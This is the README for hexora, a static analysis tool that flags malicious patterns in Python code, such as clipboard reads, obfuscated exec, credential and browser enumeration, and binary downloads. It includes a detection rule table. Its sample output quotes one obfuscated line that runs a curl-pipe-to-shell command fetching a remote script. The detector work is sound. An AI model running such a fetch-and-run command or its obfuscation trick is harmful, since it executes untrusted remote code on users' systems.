

# hexora

Hexora is a static analysis tool designed to detect malicious and harmful patterns in Python code.

It can be used to:

- Audit project dependencies to catch potential supply-chain attacks
- Detect malicious scripts found on platforms like Pastebin, GitHub, or open directories
- Analyze IoC files from past security incidents
- Audit new packages uploaded to PyPi.





# Examples

For output examples, please see [docs/examples.md](docs/examples.md) file.

# Installation

## Using Python

Requires Python 3.9+.

```bash
pip install hexora
```

Using uv:
```bash
uv tool install hexora
```

# Usage


```bash
hexora --help
```

## Audit single file

```bash 
>  hexora audit test.py

warning[HX2000]: Reading from the clipboard can be used to exfiltrate sensitive data.
  ┌─ resources/test/test.py:3:8
  │
1 │ import pyperclip
2 │
3 │ data = pyperclip.paste()
  │        ^^^^^^^^^^^^^^^^^ HX2000
  │
  = Confidence: High
    Help: Clipboard access can be used to exfiltrate sensitive data such as passwords and keys.
    
warning[HX3000]: Possible execution of unwanted code
   ┌─ resources/test/test.py:20:1
   │
19 │ (_ceil, _random, Math,), Run, (Floor, _frame, _divide) = (exec, str, tuple), map, (ord, globals, eval)
20 │ _ceil("import subprocess;subprocess.call(['curl -fsSL https://example.com/b.sh | sh'])")
   │ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ HX3000
   │
```


## Audit directory

```bash
hexora audit --output-format terminal resources/test/
```


## Audit packages from virtual environment

```bash
hexora audit --exclude HX5020,HX5030,HX5040,HX5050,HX5060 --min-confidence high .venv/lib/python3.11/site-packages/ 
```

Where `python3.11` is the version of the Python in virtual environment.

Tips:

- Use `--exclude` to suppress certain rule codes (e.g., noisy imports) for a given run
- Use `--min-confidence` to focus on high-confidence findings only.

Confidence indicates how a certain piece of code is malicious.
Some of the libraries are used for legit purposes, and it's hard to distinguish legit use-cases from malicious ones.
That's why some of the matches have a low confidence level.

## Usage in Python

```python
>>> import hexora
>>> results = hexora.audit_path("/Projects/hexora/resources/test/")
>>> len(results)
15
>>> results[0]
{'items': [{'confidence': 'low',
            'description': 'pyperclip can be used to copy and paste data from '
                           'the clipboard.',
            'label': 'pyperclip',
            'location': (7, 16),
            'rule': 'HX5010'},
           {'confidence': 'high',
            'description': 'Reading from the clipboard can be used to '
                           'exfiltrate sensitive data.',
            'label': 'pyperclip.paste',
            'location': (25, 42),
            'rule': 'HX2000'}],
 'path': '/Projects/hexora/resources/test/clipboard_01.py'}
>>> # Single file audit
>>> result = hexora.audit_file("/Projects/hexora/resources/test/clipboard_01.py")
>>> ...
 ```

## Available rules

New rules are added regularly.

Right now, the following rules are available:
| Code | Name | Description |
|---|---|---|
| HX1000 | AppEnumeration | Suspicious application enumeration. |
| HX1010 | BrowserEnumeration | Suspicious browser enumeration (apps, cookies, history, etc.). |
| HX1020 | PathEnumeration | Suspicious path enumeration. |
| HX2000 | ClipboardRead | Reading from the clipboard. |
| HX2010 | EnvAccess | Access to a sensitive environment variable. |
| HX3000 | CodeExec | Possible code execution. |
| HX3010 | ShellExec | Execution of a shell command. |
| HX3020 | DunderShellExec | Execution of a shell command via `__import__`. |
| HX3030 | DunderCodeExec | Execution of code via `__import__`. |
| HX3040 | DLLInjection | Possible DLL injection. |
| HX4000 | ObfuscateShellExec | Execution of an obfuscated shell command. |
| HX4010 | ObfuscatedCodeExec | Execution of obfuscated code. |
| HX4020 | ObfuscatedDunderShellExec | Execution of an obfuscated shell command via `__import__`. |
| HX4030 | ObfuscatedDunderCodeExec | Execution of obfuscated code via `__import__`. |
| HX5000 | DunderImport | Suspicious use of `__import__`. |
| HX5010 | SuspiciousImport | Suspicious import. |
| HX5020 | CtypesImport | Suspicious ctypes import. |
| HX5030 | PickleImport | Suspicious pickle import. |
| HX5040 | StructImport | Suspicious struct import. |
| HX5050 | SocketImport | Suspicious socket import. |
| HX5060 | MarshalImport | Suspicious marshal import. |
| HX6000 | Base64String | Long Base64-encoded string detected; possible code obfuscation. |
| HX6010 | HexedLiterals | List of hex-encoded literals detected; possible payload. |
| HX6020 | HexedString | Long hex-encoded string detected; possible payload. |
| HX6030 | IntLiterals | Large list of integer literals detected; possible code obfuscation. |
| HX6040 | CVEInLiteral | Literal contains a CVE identifier. |
| HX6050 | SuspiciousLiteral | Suspicious literal detected; possible data enumeration. |
| HX6060 | PathTraversal | Suspicious path traversal. |
| HX7000 | SuspiciousFunctionName | Suspicious function name. |
| HX7010 | SuspiciousParameterName | Suspicious parameter name. |
| HX7020 | SuspiciousVariable | Suspicious variable name. |
| HX8000 | BinaryDownload | Suspicious binary download. |
| HX8010 | BuiltinsVariable | Suspicious builtin variable usage. |


## Credits

For parsing, we use AST parser from [ruff](https://github.com/astral-sh/ruff/tree/main) library.
